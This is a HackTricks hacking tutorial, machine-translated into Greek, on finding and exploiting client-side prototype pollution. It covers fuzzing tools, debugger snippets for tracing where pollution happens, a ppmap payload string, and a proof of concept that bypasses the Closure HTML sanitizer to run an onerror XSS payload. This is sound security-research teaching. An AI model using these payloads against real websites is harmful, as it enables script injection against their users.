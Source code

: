 # Client Side Prototype Pollution

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Discovering using Automatic tools

Τα εργαλεία [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **και** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) μπορούν να χρησιμοποιηθούν για **να βρουν ευπάθειες πρωτοτύπου ρύθμισης**.

Επιπλέον, μπορείτε επίσης να χρησιμοποιήσετε την **επέκταση του προγράμματος περιήγησης** [**PPScan**](https://github.com/msrkp/PPScan) για **να σαρώσετε αυτόματα** τις **σελίδες** που **πρόσβαση** για ευπάθειες πρωτοτύπου ρύθμισης.

### Debugging where a property is used <a href="#id-5530" id="id-5530"></a>

{% code overflow="wrap" %}
```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype,'potentialGadget', {__proto__:null, get(){
console.trace();
return 'test';
}})
```
{% endcode %}

### Εύρεση της ρίζας του Prototype Pollution <a href="#id-5530" id="id-5530"></a>

Μόλις εντοπιστεί μια ευπάθεια prototype pollution από οποιοδήποτε από τα εργαλεία, και αν ο κώδικας δεν είναι υπερβολικά περίπλοκος, μπορείς να βρεις την ευπάθεια αναζητώντας λέξεις-κλειδιά όπως `location.hash`, `decodeURIComponent`, ή `location.search` στα Chrome Developer Tools. Αυτή η προσέγγιση σου επιτρέπει να εντοπίσεις την ευάλωτη ενότητα του JavaScript κώδικα.

Για μεγαλύτερες και πιο περίπλοκες βάσεις κώδικα, μια απλή μέθοδος για να ανακαλύψεις τον ευάλωτο κώδικα περιλαμβάνει τα εξής βήματα:

1. Χρησιμοποίησε ένα εργαλείο για να εντοπίσεις μια ευπάθεια και να αποκτήσεις ένα payload σχεδιασμένο να ορίσει μια ιδιότητα στον κατασκευαστή. Ένα παράδειγμα που παρέχεται από το ppmap μπορεί να μοιάζει με: `constructor[prototype][ppmap]=reserved`.
2. Ορίστε ένα breakpoint στην πρώτη γραμμή του JavaScript κώδικα που θα εκτελεστεί στη σελίδα. Ανανεώστε τη σελίδα με το payload, παγώνοντας την εκτέλεση σε αυτό το breakpoint.
3. Ενώ η εκτέλεση του JavaScript είναι παγωμένη, εκτέλεσε το παρακάτω σενάριο στην κονσόλα JS. Αυτό το σενάριο θα στείλει σήμα όταν δημιουργηθεί η ιδιότητα 'ppmap', βοηθώντας στην τοποθέτηση της προέλευσής της:
```javascript
function debugAccess(obj, prop, debugGet=true){

var origValue = obj[prop];

Object.defineProperty(obj, prop, {
get: function () {
if (debugGet)
debugger;
return origValue;
},
set: function(val) {
debugger;
origValue = val;
}
});

};

debugAccess(Object.prototype, 'ppmap')
```
4. Πλοηγηθείτε πίσω στην καρτέλα **Sources** και επιλέξτε “Resume script execution”. Το JavaScript θα συνεχίσει να εκτελείται και η ιδιότητα 'ppmap' θα μολυνθεί όπως αναμενόταν. Η χρήση του παρεχόμενου αποσπάσματος διευκολύνει την αναγνώριση της ακριβούς τοποθεσίας όπου η ιδιότητα 'ppmap' μολύνεται. Εξετάζοντας το **Call Stack**, μπορούν να παρατηρηθούν διαφορετικά στοίβες όπου συνέβη η μόλυνση.

Όταν αποφασίζετε ποια στοίβα να ερευνήσετε, είναι συχνά χρήσιμο να στοχεύετε σε στοίβες που σχετίζονται με αρχεία βιβλιοθηκών JavaScript, καθώς η μόλυνση πρωτοτύπων συμβαίνει συχνά μέσα σε αυτές τις βιβλιοθήκες. Εντοπίστε τη σχετική στοίβα εξετάζοντας τη σύνδεσή της με αρχεία βιβλιοθηκών (ορατά στη δεξιά πλευρά, παρόμοια με μια εικόνα που παρέχεται για καθοδήγηση). Σε σενάρια με πολλές στοίβες, όπως αυτές στις γραμμές 4 και 6, η λογική επιλογή είναι η στοίβα στη γραμμή 4, καθώς αντιπροσωπεύει την αρχική εμφάνιση μόλυνσης και επομένως την ρίζα της ευπάθειας. Κάνοντας κλικ στη στοίβα θα σας κατευθύνει στον ευάλωτο κώδικα.

![https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1\*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## Εύρεση Gadget Σκριπτών

Το gadget είναι ο **κώδικας που θα κακοποιηθεί μόλις ανακαλυφθεί μια ευπάθεια PP**.

Εάν η εφαρμογή είναι απλή, μπορούμε να **αναζητήσουμε** λέξεις-κλειδιά όπως **`srcdoc/innerHTML/iframe/createElement`** και να ελέγξουμε τον πηγαίο κώδικα και να δούμε αν οδηγεί σε **εκτέλεση javascript**. Μερικές φορές, οι αναφερόμενες τεχνικές μπορεί να μην βρουν καθόλου gadgets. Σε αυτή την περίπτωση, η καθαρή ανασκόπηση του πηγαίου κώδικα αποκαλύπτει μερικά ωραία gadgets όπως το παρακάτω παράδειγμα.

### Παράδειγμα Εύρεσης Gadget PP στον κώδικα της βιβλιοθήκης Mithil

Ελέγξτε αυτή τη γραφή: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## Ανασύνθεση payloads για ευάλωτες βιβλιοθήκες

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
* [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## Παράκαμψη HTML Sanitizers μέσω PP

[**Αυτή η έρευνα**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) δείχνει gadgets PP που χρησιμοποιούνται για **να παρακάμψουν τις απολυμάνσεις** που παρέχονται από ορισμένες βιβλιοθήκες HTML sanitizers:

* **sanitize-html**

<figure><img src="../../../.gitbook/assets/image (1140).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

* **dompurify**

<figure><img src="../../../.gitbook/assets/image (1141).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

* **Closure**
```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
Object.prototype['* ONERROR'] = 1;
Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
goog.require('goog.html.sanitizer.HtmlSanitizer');
goog.require('goog.dom');
</script>
<body>
<script>
const html = '<img src onerror=alert(1)>';
const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
const sanitized = sanitizer.sanitize(html);
const node = goog.dom.safeHtmlToNode(sanitized);

document.body.append(node);
</script>
```
## Αναφορές

* [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
* [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
* [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
